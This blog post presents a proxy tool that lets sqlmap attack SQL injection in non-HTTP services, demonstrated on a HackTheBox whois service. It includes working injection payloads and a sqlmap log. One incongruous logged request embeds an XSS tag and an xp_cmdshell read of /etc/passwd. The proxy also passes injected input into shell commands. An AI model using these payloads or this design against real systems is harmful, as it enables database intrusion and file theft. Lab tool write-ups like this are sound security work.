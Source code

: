 ```yaml
---
title: Introducing sqlmap into non-HTTP services.
published: true
---
```


Recently, I was introduced to an interesting problem: How to automate the SQL injection exploitation of non-HTTP service? Non-HTTP service, in this case, means that the communication between client and server isn't HTTP based and might be text or binary. Sometimes services like `whois` are using custom SQL databases, which is an ideal situation to produce unwanted problems because you have to take care of the sanitization of user input. The `whois` service, which I used for testing is working on a non-retired [HachTheBox.eu](https://hackthebox.eu) box, so I can’t do it very detailed, but you should be able to take advantage of the idea itself to create your custom proxies or just give a try with my tool `shiny-garbonzo` - an HTTP wrapper, which will invoke your client and pass to it the `sqlmap's` input. Let’s start by diving into how `sqlmap` works.

## sqlmap®:

`Sqlmap` can automate the SQL injection attack using requests to HTTP/S sites and some magic :) When you think about SQLi you might imagine it's a web application attack vector but other non-HTTP based services are using databases as well so they might be prone. While passing an interesting HTTP request or URL to `sqlmap`, it can test all parameters, no matter if it is GET or POST or even HTTP header based injection point. But what to do when you know that your non-HTTP service is prone to SQL injection attack? You can exploit it manually which is recommended for learning sake or use a tool that is dedicated to that service being able to communicate with it and script your way into.

## Toolbelt:

- sqlmap 1.3.9#stable
- python 3.7

## Tool:

[https://github.com/haqpl/shiny-garbanzo](https://github.com/haqpl/shiny-garbanzo)

## How does it work?

When you run `shiny-garbanzo` in the following way:

```
python3 shiny-garbanzo.py --host '127.0.0.1' --tool "whois" --port 1337 --arguments="-h IP SQLMAP"
```

The workflow looks like that:

1. Start IPv4/IPv6 HTTP Server and listen on given IP:PORT.
2. Loop for connections from `sqlmap`.
3. Parse `sqlmap` input and assembly shell command to invoke the tool.
4. Return the output from shell as a valid HTTP response.

Have in mind that `sqlmap` must be called with `--data "cmd=" -p "cmd" --method POST` which will tell it to use HTTP POST request and `cmd` parameter as an injection point.

```
usage: shiny-garbanzo.py [-h] [--host HOST] [--port PORT] [--tool TOOL]
                         [--arguments [ARGUMENTS [ARGUMENTS ...]]]
                         [--verbose VERBOSE]

Non-HTTP sqlmap proxy

optional arguments:
  -h, --help            show this help message and exit
  --host HOST           IP to listen on.
  --port PORT           Port to listen on.
  --tool TOOL           Tool to use for non-HTTP communication.
  --arguments [ARGUMENTS [ARGUMENTS ...]]
                        Arguments passed to target tool, use SQLMAP word to
                        place SQLMAP's input where it's needed.
  --verbose VERBOSE     Verbose mode.
```

## Working test-case:

Below you can see an example usage of `shiny-garbanzo` and the corresponding output of `sqlmap`, which identified and successfully exploited four different types of SQLi vulnerability in non-HTTP service.


{% include figure.html file="/assets/shiny-garbanzo.png" alt="/assets/shiny-garbanzo.png" number="1" caption="SQL injection in non-HTTP service." %}

```
python3 shiny-garbanzo.py --host '127.0.0.1' --tool "whois" --port 1337 --arguments="-h IP SQLMAP"
[i] Starting server on 1337 PORT
[i] Start with this:
[+] sqlmap -u "127.0.0.1:1337" --data "cmd=" -p "cmd" --method POST
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST / HTTP/1.1" 200 -
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST /?lgda=9167%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 200 -
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST / HTTP/1.1" 200 -
...
```

```
sqlmap -u "http://127.0.0.1:1337" --data "cmd=" -p "cmd" --method POST --tables 
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.10#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:20:16 /2019-10-23/

[18:20:17] [WARNING] provided value for parameter 'cmd' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[18:20:17] [INFO] testing connection to the target URL
[18:20:17] [WARNING] turning off pre-connect mechanism because of incompatible server ('BaseHTTP/0.6 Python/3.7.5rc1')
[18:20:17] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:20:17] [INFO] testing if the target URL content is stable
[18:20:17] [INFO] target URL content is stable
[18:20:17] [INFO] heuristic (basic) test shows that POST parameter 'cmd' might be injectable (possible DBMS: 'MySQL')
[18:20:17] [INFO] heuristic (XSS) test shows that POST parameter 'cmd' might be vulnerable to cross-site scripting (XSS) attacks
[18:20:17] [INFO] testing for SQL injection on POST parameter 'cmd'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSesfor the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and [18:20:23] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:20:24] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[18:20:24] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:20:25] [WARNING] reflective value(s) found and filtering out
[18:20:26] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:20:27] [INFO] POST parameter 'cmd' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable 
...
[18:20:27] [INFO] POST parameter 'cmd' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[18:20:27] [INFO] testing 'MySQL inline queries'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP - comment)'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP)'
[18:20:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[18:20:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[18:20:28] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:20:38] [INFO] POST parameter 'cmd' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[18:20:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:20:38] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[18:20:38] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:20:38] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:20:38] [INFO] target URL appears to have 2 columns in query
[18:20:38] [INFO] POST parameter 'cmd' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[18:20:38] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'cmd' is vulnerable. Do you want to keep testing the others (if any)? [y/N] sqlmap identified the following injection point(s) with a total of 88 HTTP(s) requests:
---
Parameter: cmd (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: cmd=-5703') OR 4258=4258#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: cmd=') AND (SELECT 9790 FROM(SELECT COUNT(*),CONCAT(0x716a7a6271,(SELECT (ELT(9790=9790,1))),0x71627a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- mPGW

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cmd=') AND (SELECT 9669 FROM (SELECT(SLEEP(5)))ocLO)-- pzpA

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: cmd=') UNION ALL SELECT CONCAT(0x716a7a6271,0x736e52496f5a646e56714f70556150784b766b6648696a45746d6869424875725a77684354704b70,0x71627a6b71),NULL#
---
[18:20:45] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[18:20:45] [INFO] fetching database names
[18:20:45] [INFO] fetching tables for databases: 'information_schema, whois'
Database: informati\non_schema
[1 table]
...

Database: whois
[1 table]
...

Database: information_schema
[77 tables]
...

[18:20:45] [INFO] fetched data logged to text files under './output/127.0.0.1'

[*] ending @ 18:20:45 /2019-10-23/

```
Profit.

## Credits:

[@kolokokop](https://twitter.com/kolokokop), he did it the same way ;)

<hr>

If you found that idea interesting or have a non-HTTP service in mind which could be tested, please contact me or just comment on the post.
